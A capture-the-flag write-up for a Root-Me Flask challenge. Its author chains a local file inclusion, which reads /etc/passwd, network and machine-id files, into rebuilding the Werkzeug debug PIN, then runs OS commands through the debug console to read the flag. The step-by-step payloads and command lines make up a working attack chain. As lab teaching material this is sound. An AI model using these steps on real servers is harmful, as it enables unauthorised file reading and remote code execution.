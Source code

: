 ```yaml
---
layout: default
title: Flask-Development-server
---
```


Here I saw this interesting article [hacking flask applications](https://medium.com/swlh/hacking-flask-applications-939eae4bffed), which talks about `debug` mode which shouldn't be in production.

Saw, I went to `http://challenge01.root-me.org:59085/console`, However, we can see we need to supply PIN.

Then, I saw this article [hacking the debugging pin of flask](https://b33pl0g1c.medium.com/hacking-the-debugging-pin-of-a-flask-application-7364794c4948), which talks about how to regenerate the PIN.

This script should regenerate the PIN, however, we need to supply input that we need to achieve somehow.
```py
{% include_relative scripts/Flask-Development-server_pin_cracker %}
```

Then, I saw this `LFI` here: `http://challenge01.root-me.org:59085/services?search=/etc/passwd`

We need to achieve several things:
1. username of who started the flask app
2. modname of the Flask.app (it is always `flask.app`)
3. `getattr(app, '__name__', getattr (app .__ class__, '__name__'))` is `Flask`
4. the `getattr(mod, '__file__', None)` is the absolute path `app.py` in the flask directory. 
5. the MAC address of the current computer
6. the machine-id

Let's achieve them!

### 1. username of who started the flask app

when checking `/etc/passwd` we get:
```
root:x:0:0:root:/root:/bin/ash bin:x:1:1:bin:/bin:/sbin/nologin daemon:x:2:2:daemon:/sbin:/sbin/nologin adm:x:3:4:adm:/var/adm:/sbin/nologin lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin sync:x:5:0:sync:/sbin:/bin/sync shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown halt:x:7:0:halt:/sbin:/sbin/halt mail:x:8:12:mail:/var/mail:/sbin/nologin news:x:9:13:news:/usr/lib/news:/sbin/nologin uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin operator:x:11:0:operator:/root:/sbin/nologin man:x:13:15:man:/usr/man:/sbin/nologin postmaster:x:14:12:postmaster:/var/mail:/sbin/nologin cron:x:16:16:cron:/var/spool/cron:/sbin/nologin ftp:x:21:21::/var/lib/ftp:/sbin/nologin sshd:x:22:22:sshd:/dev/null:/sbin/nologin at:x:25:25:at:/var/spool/cron/atjobs:/sbin/nologin squid:x:31:31:Squid:/var/cache/squid:/sbin/nologin xfs:x:33:33:X Font Server:/etc/X11/fs:/sbin/nologin games:x:35:35:games:/usr/games:/sbin/nologin cyrus:x:85:12::/usr/cyrus:/sbin/nologin vpopmail:x:89:89::/var/vpopmail:/sbin/nologin ntp:x:123:123:NTP:/var/empty:/sbin/nologin smmsp:x:209:209:smmsp:/var/spool/mqueue:/sbin/nologin guest:x:405:100:guest:/dev/null:/sbin/nologin nobody:x:65534:65534:nobody:/:/sbin/nologin web-app:x:1000:1000:Linux User,,,:/home/web-app:/bin/ash
```
Here, we can see the Linux user: `web-app`, this is probably the user who started the app.

### 2. modname of the Flask.app (it is always `flask.app`)

Okay, this is always `flask.app`

### 3. `getattr(app ...)`

This is `Flask`

### 4. the `getattr(mod, ...)` is the absolute path `app.py` in the flask directory.

We can see from the http-headers that it uses `Python/3.11.9`

I asked chatGPT, and this is what I got:
### Global vs. User-specific installation:

- **Global installation**: When Flask is installed globally (for all users or system-wide), it would usually reside in `/usr/local/lib/pythonX.X/site-packages/` (for example, `/usr/local/lib/python3.11/site-packages/`).
  
- **User-specific installation**: If you install Flask **just for your user** (using `pip install --user flask`), it will be placed in your **user's `.local` folder** under `~/.local/lib/python3.X/site-packages/`.

  Flask can end up in the **user's directory** (`~/.local/`) if you used `--user` during installation or if you're in a virtual environment. This is why the path might not be in `/usr/local/lib/python3.X/site-packages/`.

### Virtual Environments:

- If you're using a **virtual environment**, the location of `app.py` might be in a path like: `/path/to/your/virtualenv/lib/python3.X/site-packages/flask/app.py`.

Let's try `global`:
```
/usr/local/lib/python3.11/site-packages/flask/app.py
```
And we get: `[Errno 2] No such file or directory: '/usr/local/lib/python3.11/site-packages/flask/app.py'`

Okay, let's try `.local`, ur user is `web-app`.
```
/home/web-app/.local/lib/python3.11/site-packages/flask/app.py
```

And we get the file!
So, the absolute path is:
```
/home/web-app/.local/lib/python3.11/site-packages/flask/app.py
```

### 5. the MAC address of the current computer

To get the MAC address, find out the `/proc/net/arp` device id and find the mac address by typing the `/sys/class/net/<device-id>/address`.

when typing `/proc/net/arp` we get:
```
IP address HW type Flags HW address Mask Device 172.16.0.1 0x1 0x2 02:42:40:04:82:d0 * eth0
```

So, devide id is `eth0`, and then `/sys/class/net/eth0/address` gives us the MAC address, which is:
```
02:42:ac:10:00:26
```

### 6. the machine-id

As I saw here, [werkzeug pentesting](https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/werkzeug.html):
Concatenates data from `/etc/machine-id` or `/proc/sys/kernel/random/boot_id` with the first line of `/proc/self/cgroup` post the last slash (`/`).

This is what we got for `/proc/sys/kernel/random/boot_id`
```
ec81ef37-14b2-4201-827d-f0811d43866a
```
I asked chatGPT for common places that I can find the machine-id, This is what I got:
```
/etc/machine-id
/proc/sys/kernel/random/boot_id
```

When fetching this `/proc/self/cgroup` we got:
```
ec81ef37-14b2-4201-827d-f0811d43866a
```

## Attack

So now, let's insert all to the code, and we get this PIN:
```
754-279-725
```

Now, we can simply execute commands like this:
```py
__import__('os').popen('whoami').read()
```

So, first we want `ls -a`:
```py
__import__('os').popen('ls -a').read()
```

Then, we simply execute `cat 1b2cba8365de790bbb1e3dabcacdede935745e393288fd48f64b985cb52dad11.txt`:
```py
__import__('os').popen('cat 1b2cba8365de790bbb1e3dabcacdede935745e393288fd48f64b985cb52dad11.txt').read()
```

And getting:
`RM{B3_C4refull_w1th_fl4sk_d3bug}`

**Flag:** **_`RM{B3_C4refull_w1th_fl4sk_d3bug}`_**
